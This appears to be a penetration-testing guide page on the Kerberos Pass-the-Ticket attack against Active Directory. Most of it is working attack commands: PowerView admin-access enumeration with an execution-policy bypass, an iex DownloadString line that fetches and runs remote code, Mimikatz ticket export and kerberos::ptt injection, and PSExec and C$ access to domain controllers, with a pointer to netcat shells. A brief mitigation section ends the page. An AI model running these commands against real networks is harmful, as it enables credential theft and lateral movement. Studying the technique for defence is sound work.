 # Pass-the-Ticket

Pass the Ticket is a credential theft technique that enables adversaries to use stolen Kerberos tickets to authenticate to resources (e.g, file shares and other computers) as a user without having to compromise that user's password.\
Adversaries often use this technique to move laterally through an organization's network to hunt for opportunities to escalate their privileges or fulfil their mission.&#x20;

#### Methods

* Tickets enumeration
* Capturing Kerberos tickets for valid accounts&#x20;
* Reusing the ticket
* Discovering privileges of the stolen ticket

## Initial enumeration

Check machines within the Active Directory Domain,  where the current user is a local administrator.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Find-LocalAdminAccess

# enter in the session
Enter-PSSession $PREVIOUS_RESULT_COMPUTER
```

Now, check the privilege that we have in the machine with this command:

Copy

```powershell
whoami /all
```

Then, we have to transfer mimikatz.exe or Invoke-Mimikatz.ps1 into target machine.

{% code title="Linux -> Windows Target" %}
```powershell
# into linux
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

<pre class="language-powershell" data-title="Windows -> Windows Target"><code class="lang-powershell"># Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
<strong>iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
</strong></code></pre>

## Get Kerberos tickets

### With Mimikatz

Export all tickets from local memory

{% code title="Invoke-Mimikatz.ps1" %}
```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
{% endcode %}

{% code title="mimikatz.exe" %}
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"
```
{% endcode %}

This is the output files:

<figure><img src="../../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

The kerberos ticket is the file within "_krgtgt_" in the name.&#x20;

## Reusing the ticket

### Mimikatz

In this step, the attacker employs the **Mimikatz** command `kerberos::ptt` to insert the obtained TGT into their own session, resulting in their session taking on the **identity** and **permissions** of the stolen TGT for future access to resources **without knowing the plaintext credentials**.

{% code title="Invoke-Mimikatz.ps1" %}
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt $KIRBI_FILE_NAME"'
```
{% endcode %}

{% code title="mimikatz.exe" %}
```powershell
mimikatz.exe "kerberos::ptt $KIRBI_FILE_NAME"
```
{% endcode %}

The above commands is used to insert the Kerberos Ticket Granting Ticket (TGT) stored in the corresponding .kirbi file into the current session.

To make sure that the right ticket was injected, an adversary can use the “`kerberos::list`” Mimikatz command.

```powershell
mimikatz.exe "kerberos::list"
klist
```





## Discovering privileges of the stolen ticket

#### Domain Controller access check

{% code title="PowerView commands" %}
```powershell
Get-Domain # view the DC address

ls \\$DOMAIN_CONTROLLER_DOMAIN\c$ # check if we have access to DC
PSExec \\$DOMAIN_CONTROLLER_DOMAIN powershell.exe
```
{% endcode %}

If we have the privilege to access into Domain controller we can use:

```
Enter-PSSession $DC_NAME
```

Or create a bind/rev shell into domain controller with NC.

{% content-ref url="../../executive-pt/post-exploitation/shells/" %}
[shells](../../executive-pt/post-exploitation/shells/)
{% endcontent-ref %}

#### Futher info of stolen account

{% code title="PowerShell" %}
```powershell
net user Alice /domain
```
{% endcode %}







## Mitigation Technique

Effective measures to counter pass-the-hash attacks concentrate on making tickets more difficult to steal and limiting the potential impact of a stolen ticket. One such measure is to utilize Microsoft's Windows Defender Credential Guard. This technology, which was introduced in Windows 10 and Windows Server 2016, leverages virtualization to secure credential storage and provide access only to trusted processes.&#x20;

Another important step is to limit the number of endpoints where users have administrative privileges. This significantly reduces the risk of an attacker using a stolen ticket for lateral movement. It is also important to avoid granting administrative privileges across security boundaries, as this greatly reduces the risk of an attacker using a stolen ticket to escalate their privileges.



